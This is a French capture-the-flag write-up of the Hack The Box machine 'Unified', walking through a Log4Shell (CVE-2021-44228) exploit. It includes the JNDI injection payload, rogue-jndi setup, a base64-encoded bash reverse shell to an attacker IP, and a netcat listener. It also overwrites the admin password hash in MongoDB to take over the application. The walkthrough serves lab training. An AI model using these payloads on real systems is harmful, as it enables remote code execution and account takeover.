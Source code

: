 # Unified

Notes sur la machine Unified.

Cette machine est intéressante vu que Log4j a surpris tout le monde, étant donné que c'est une faille qui est la depuis un bon moment et elle n'a été découverte que récemment.  Elle a même permis de prendre conscience sur le fait qu'un seul développeur à la charge d'un projet et qui fait ce code de façon bénévole pouvait être à la base d'une faille de grosse ampleur. [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## On teste la vulnerabilité

On se sert du champ 'remember' avec le 'repeater de burpsuite' pour y introduire un appel ldap, on est à l'écoute avec tcpdump

${jndi:ldap://10.10.14.19/whatever}

```bash
❯ tcpdump -i tun0 port 389 -v
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:18:20.530190 IP (tos 0x0, ttl 63, id 10956, offset 0, flags [DF], proto TCP (6), length 60)
    10.129.125.109.60474 > 10.10.14.19.ldap: Flags [S], cksum 0xf4e8 (correct), seq 339107591, win 64240, options [mss 1360,sackOK,TS val 2396506282 ecr 0,nop,wscale 7], length 0
03:18:20.530225 IP (tos 0x0, ttl 64, id 0, offset 0, flags [DF], proto TCP (6), length 40)
    10.10.14.19.ldap > 10.129.125.109.60474: Flags [R.], cksum 0xaec7 (correct), seq 0, ack 339107592, win 0, length 0
```

## On construit l'application java rogue-jndi avec maven

Ici j'ai eu un doute sur la version de java mais cela marche quand même avec la version 17 de Parrot. De toutes façons si tu désinstalles la 17 t'as plus le Burpsuite.

```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

Nous avons construit :  RogueJndi-1.1.jar

On va utiliser cette appli pour créer le payload !

Le payload va être un reverse shell sous cette forme : 

```bash
❯ echo 'bash -c bash -i >&/dev/tcp/10.10.14.19/8888 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTkvODg4OCAwPiYxCg==
```

Un reverse shell classique.

On va donc exécuter RogueJndi-1.1.jar et on va lui passer le payload dans le paramètre --command et on va mettre le --hostname avec nôtre tun0

```bash
❯ java -jar ./RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTkvODg4OCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.19"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.19:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.19:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.19:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.19:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.19:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.19:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.19:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.19:1389/o=groovy to artsploit.controllers.Groovy
Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload
```

On va sur Burpsuite et on send dans le 'repeater' avec : 

```bash
{"username":"admin","password":"admin","remember":"${jndi:ldap://10.10.14.19:1389/o=tomcat}","strict":true}
```

## On est à l'écoute et on reçois la connection

```bash
❯ nc -lvp 8888
listening on [any] 8888 ...
10.129.125.109: inverse host lookup failed: Unknown host
connect to [10.10.14.19] from (UNKNOWN) [10.129.125.109] 50980
whoami
unifi
script /dev/null -c bash
Script started, file is /dev/null
unifi@unified:/usr/lib/unifi$ 
```

pwd et ls /home/${USER} pour aller chercher un user.txt

## On se connecte a mongo pour chercher le pass de l'admin

```bash
unifi@unified:/home/michael$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

Une fois trouvé on va le remplacer par le notre

1. On crée le pass en sha-512

```bash
mkpasswd -m sha-512 Password1234
```

2. On le remplace 

```bash
unifi@unified:/home/michael$ mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$xpt560mkS9qyXcXx$pif2PENRfHM/5IKuw4qaSbebUCh1dO72I5wZnL4tntxWzJzT7n4bNCwqXD6lY68UMCX6vx.2zpweswuYdBAX6."}})'
<ntxWzJzT7n4bNCwqXD6lY68UMCX6vx.2zpweswuYdBAX6."}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
unifi@unified:/home/michael$ 
```

Puis on peut se connecter sur l'interface du site ;)

user : administrator
pass : Password1234

Dans le site on trouve le mot de passe pour root pour une connection ssh !!!

On se connecte en ssh et la machine est finie. \o/

[Pwned](https://www.hackthebox.com/achievement/machine/944728/441) 

---

